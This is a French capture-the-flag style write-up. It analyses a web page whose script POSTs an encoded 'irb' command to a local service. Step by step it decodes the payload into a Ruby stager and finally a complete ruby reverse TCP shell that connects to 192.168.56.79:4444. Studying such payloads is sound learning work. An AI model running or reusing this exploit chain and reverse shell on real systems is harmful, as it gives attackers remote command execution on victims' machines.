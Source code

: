 r00t3d !

## Keskicépacé

Si on requête notre port 80 on obtient le code HTML suivant qui génère une XHR avec en body une commande `irb` :

```html
<html>
<head></head>
<body>
<script>
var ILScHZQn = new XMLHttpRequest();
ILScHZQn.open("POST","http://127.0.0.1:55554/", true);
var RHZPEArroid = String("\x65\x76\x61\x6c\x28\x25\x28--- snip ---\x66\x69\x72\x73\x74\x29");
ILScHZQn.send("irb -e \"" + RHZPEArroid + "\"\n");
</script>
</body>
</html>
```

La chaine hexa se décode en quelque chose comme ça :

```ruby
eval(%(Y29kZSA9ICUoY21WeGRXbHlaU0FuYzI--- snip ---Y29kZSkgcmVzY3VlIG5pbAplbmQKZW5k).unpack(%(m0)).first)
```

Dedans c'est du code Ruby, visiblement un template car il ne fait que décoder et exécuter le payload :

```ruby
code = %(cmVxdWlyZSAnc29ja2V0JztjPVRDUFNvY2tldC5uZXcoIjE5Mi4xNjguNTYuNzkiLCA0NDQ0KTskc3RkaW4ucmVvcGVuKGMpOyRzdGRvdXQucmVvcGVuKGMpOyRzdGRlcnIucmVvcGVuKGMpOyRzdGRpbi5lYWNoX2xpbmV7fGx8bD1sLnN0cmlwO25leHQgaWYgbC5sZW5ndGg9PTA7KElPLnBvcGVuKGwsInJiIil7fGZkfCBmZC5lYWNoX2xpbmUge3xvfCBjLnB1dHMoby5zdHJpcCkgfX0pIHJlc2N1ZSBuaWwgfQ==).unpack(%(m0)).first
if RUBY_PLATFORM =~ /mswin|mingw|win32/
inp = IO.popen(%(ruby), %(wb)) rescue nil
if inp
inp.write(code)
inp.close
end
else
if ! Process.fork()
eval(code) rescue nil
end
end
```

Il s'agit de celui qu'on a sélectionné (`ruby/shell_reverse_tcp`) :

```ruby
require 'socket';
c=TCPSocket.new("192.168.56.79", 4444);
$stdin.reopen(c);
$stdout.reopen(c);
$stderr.reopen(c);
$stdin.each_line{|l|l=l.strip;next if l.length==0;(IO.popen(l,"rb"){|fd| fd.each_line {|o| c.puts(o.strip) }}) rescue nil }
```
